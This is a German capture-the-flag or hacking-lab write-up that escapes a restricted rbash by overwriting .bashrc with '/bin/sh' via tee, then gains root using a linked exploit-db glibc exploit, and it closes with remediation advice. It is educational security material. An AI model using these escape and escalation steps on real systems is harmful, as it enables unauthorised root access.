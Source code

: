 # 7002 Got Root

## Analyse
- Mit dem `restricted` User ist man in einer Shell gefangen, `cat` zum Beispiel funktioniert nicht:
```
-rbash: /usr/bin/python: restricted: cannot specify `/' in command names
```
- Offensichtlich ist man in einer `rbash`. Im "home"-Verzeichnis liegt folgendes:
```
$ ls -la
drwx------ 3 restricted users 4096 2012-04-12 12:43 .
drwxr-xr-x 6 root       root  4096 2008-11-13 16:54 ..
-rw------- 1 restricted users  883 2012-04-12 12:52 .bash_history
-rw-r--r-- 1 restricted users   39 2007-09-12 12:27 .bashrc
dr-xr-xr-x 2 root       root  4096 2007-09-12 11:50 bin
lrwxrwxrwx 1 root       root     7 2008-11-13 10:18 .profile -> .bashrc
```
- Mit `ls -la bin/` sehen wir, dass wir `tee`, `ls` und `ping` ausführen können
- Die `.bashrc` wird bei jedem Login ausgeführt, und als `restricted` User haben wir Schreibrechte drauf

### Exploit
- Mit `tee` können wir die `.bashrc` überschreiben
```bash
echo '/bin/sh' | tee .bashrc
```
- Wenn wir jetzt eine sepparate SSH-Session aufmachen, wird `/bin/sh` ausgeführt, und wir sind in einer normalen Shell
- Von do können wir den Exploit von <http://www.exploit-db.com/exploits/18105/> benutzen
    - `cat > exploit.sh << EOF`
    - Exploit einfügen
    - `EOF`
    - `chmod +x exploit.sh`
    - `./exploit.sh`

![](../img/hacking-lab-7002-1.png)
(im Bild heisst der exploit `nothing.sh` und wurde schon in der rbash hinein kopiert)

secret.txt:
```
TEAM X GOTROOT

ID: GOTROOT

____________________________________________________________
Je unschuldiger ein Mädchen ist, desto weniger weiss sie
von den Methoden der Verführung. Bevor sie Zeit hat nachzu-
denken, zieht Begehren sie an, Neugier noch mehr und Gelegen-
heit macht den Rest...
(Casanova)

I love you all 
E1
```

## Remediation
- Das File `.bashrc` muss zwar vom `restricted` User ausgeführt werden können, er braucht aber keine Schreibberechtigung darauf. Eine Berechtigung von `400` würde reichen, dann könnte er die Datei nicht mehr überschreiben
- Natürlich ist dieser Exploit nur mit einer alten Version von `glibc` möglich
